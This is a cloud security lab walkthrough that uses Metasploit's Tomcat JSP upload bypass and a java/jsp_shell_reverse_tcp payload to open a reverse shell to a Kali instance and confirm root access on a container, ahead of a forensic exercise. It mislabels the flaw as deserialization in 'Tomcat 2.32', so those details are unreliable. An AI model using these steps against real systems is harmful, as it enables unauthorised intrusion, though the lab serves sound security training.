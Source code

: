 # Lab 2: Attacking the Tomcat service

**Launching the attack**

This exploit leverages a deserialization vulnerability in Apache Tomcat (version 2.32, CVE-2017-12617) to execute arbitrary code and shovel an administrative shell back to a listener service on the Kali instance for command and control access to the exploited host.

We'll launch the Metasploit “resource script” we viewed in the previous section. A resource script is essentially a batch script for Metasploit which you can use to automate common tasks. See the following link for more information about Metasploit resource files.

https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit__resource_files.md#what-are-resource-files

Now we’ll complete the setup of our Kali environment by creating the required configuration files to launch the attack against the DNS address and exploit script we already identified.

Complete the setup of the _startup.rc_ file

```shell
./start-msploit.sh
```

Examine the contents of the resulting “startup.rc” file

```shell
cat ./startup.rc
```

![Contents of startup.rc](start.png)

- We are using the “tomcat_jsp_upload_bypass’ exploit resource script
- rhosts is the DNS address of the Application Load Balancer used to reach the vulnerable system
- rport is the target port
- The LHOST is the public IP associated with the Kali instance
- The LPORT is the local port that the Kali instance will listen on for the shovel connection
- The REVERSELISTNERBINDADDRESS is the local ip address assigned to the Kali instance in the VPC
- Payload java/jsp_shell_reverse_tcp is a package we will load onto the target so we can send commands to the target system.

Write Kali’s public IP to a variable and make a note of it.

```shell
KALI_PUB_IP=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Kali" --query 'Reservations[].Instances[].PublicIpAddress' --output text)

echo $KALI_PUB_IP
```

> [!NOTE]
> Copy the Kali Public IP address somewhere for later use!

Before initiating the attack, we’re going to record the time for our forensic investigation later on.

```shell
date
```

Launch Metasploit with the startup.rc script that has all the necessary parameters for the target

```shell
sudo msfconsole -r startup.rc
```

> [!NOTE]
> Ignore any “unable to resolve host” errors

Type “yes” if prompted to set up a new database, and accept the defaults

![Launching Metasploit](runstart.png)

Examining the output we can observe the following

1. We load the tomcat_jsp_upload_bypass
1. Set the rhosts (target of the attack) as the DNS address of the load balancer
1. We set the target port to 80
1. We set the LHOST as the public IP address associated with the Kali network interface (required for the remote shell that we are trying to create to our Kali instance)
1. We set the listening port for the reverse shell to 443
1. We attempt to bind Kali to the local IP address of the Kali network interface
1. We created a new session which is a reverse shell connection to the Kali instance

**Establish a reverse shell**

Metasploit has indicated that we successfully created a reverse shell connection from the vulnerable web app pod to the Kali instance.

_List active sessions_

```shell
sessions -i
```

![Metasploit sessions](sessions.png)

Connect to the active session

```shell
sessions <<id>>
```

![Connect to Metasploit session](session1.png)

View your logged in identity

```shell
whoami
```

![Logged in users](whoami.png)

_List the root directory on the compromised container_

```shell
ls -al
```

![Directory listing](ls.png)

> [!NOTE]
> We appear to have the aws cli installed on the container, a risky practice but potentially helpful to the attacker. (We will return to this later.) You will also discover that we have the ability to install additional software as required.

At this point we have determined that we have privileged, root-level access on the container itself. In the next phase of the attack, we will explore what we might achieve with this level of access.
